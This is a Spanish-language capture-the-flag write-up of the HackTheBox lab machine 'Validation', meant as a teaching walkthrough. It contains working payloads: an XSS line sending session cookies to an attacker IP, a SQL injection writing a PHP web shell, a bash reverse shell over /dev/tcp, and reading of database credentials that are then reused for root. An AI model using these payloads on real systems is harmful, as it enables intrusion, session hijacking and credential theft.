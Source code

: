```yaml
---
title: 'CTF - Validation WriteUp'
date: '2022-02-08'
tags: ["CTF", "Hacking", "SQLInjection", "XSS", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: Esta máquina es del creador de contenido de Ciberseguridad IppSec Podemos encontrar varias máquinas
---
```


Esta máquina es del creador de contenido de Ciberseguridad [IppSec](https://www.youtube.com/c/ippsec/videos). Podemos encontrar varias máquinas suyas en HTB y suelen ser todas bastante entretenidas.

En este caso empezamos con el escaneo de puertos.


```
nmap -p- -sS --open -T5 -vvv -n -Pn -oG allPorts 10.10.11.116
```
NMAP all ports discoveryEn mi caso, el parámetro --min-rate 5000 no me funciona bien. Seguramente tenga algo que ver la máquina virtual que utilizo, por lo que utilizo -T5 que es el modo loco de NMAP para ir tan rápido como pueda.

Descubrimos varios puertos abiertos.


```
❯ nmap -p22,80,4566,8080 -sCV -n -Pn 10.10.11.116 -oN targeted
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
El puerto 8080 devuelve un http status code 502 y el 4566 un 403 forbidden, por lo que nos centramos en el puerto 80.

En la página principal aparece un formulario donde podemos introducir un nombre y elegir un país.

![](https://blog.ikerocio.com/content/images/2022/02/form.png)Parece que al rellenarlo, nos lleva a otra página con la información registrada. Probamos una inyección XSS en el campo *Username* y avanzamos.


```
alert("XSS attack");
```
Pulsamos al botón de Join Now y encontramos lo siguiente.

![](https://blog.ikerocio.com/content/images/2022/02/xss.png)Una vez que validamos que es vulnerable a ataques XSS, busco el siguiente código en el cheatsheet de [R0B1NL1N](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).


```
var i=new Image;i.src="http://10.10.14.14:8080/?"+document.cookie;
```
Y tras poner en escucha en nuestro equipo un servidor en el puerto 8080, recibo la siguiente petición. Lo que se ve a continuación soy yo entrando a la página y enviándome mi cookie de sesión *user=020fba18d39d4e3bbda3fa8396dd4563*. De esta forma verifico que todo funciona correctamente.


```
❯ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.14.14 - - [08/Feb/2022 18:39:45] "GET /?user=020fba18d39d4e3bbda3fa8396dd4563 HTTP/1.1" 200 -
```
Llegados a este punto cualquier usuario que entre a esa página, nos estará enviando su cookie de sesión. Continúo buscando cosas mientras dejo el servidor corriendo aunque ya os adelanto que por ese camino, no voy a conseguir nada más.

Retomando los pasos previos, intento ver si el formulario es vulnerable a injecciones SQL y veo que el input del país es vulnerable.

Monto Burpsuite, activo el proxy en mi navegador y modifico los parámetros de la petición /POST de la siguiente manera.


```
username=anyuser&country='union select "php system($_REQUEST['cmd']); ?" INTO OUTFILE "/var/www/html/shell.php"-- -
```
Me pongo en escucha con Netcat en mi máquina en el puerto 443 y realizo una petición a la siguiente URL.


```
http://10.10.11.116/shell.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.14%2F443%200%3E%261%0A
```
La URL está codificada. El contenido de cmd es bash -i & /dev/tcp/10.10.14.14/443 0&1.

Recibo la shell y lo primero que hago es ver la siguiente configuración en el directorio actual.


```
www-data@validation:/var/www/html$ cat config.php
php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?
```
Veo las credenciales de MySQL. Podría tratar de enumerar el contenido de la base de datos, pero pruebo por casualidad si soy capaz de ponerme como sudo con la misma contraseña.


```
www-data@validation: su -
uhc-9qual-global-pw
root@validation:~#
```
Llegados a este punto, tenemos acceso a todo el contenido. Enumero las flags y listo.


```
root@validation:~# cat /home/htb/user.txt
e4be632da67c582f555571fdfa8135d6
root@validation:~# cat root.txt
459129eac316e8f9a522758f2a362493
```
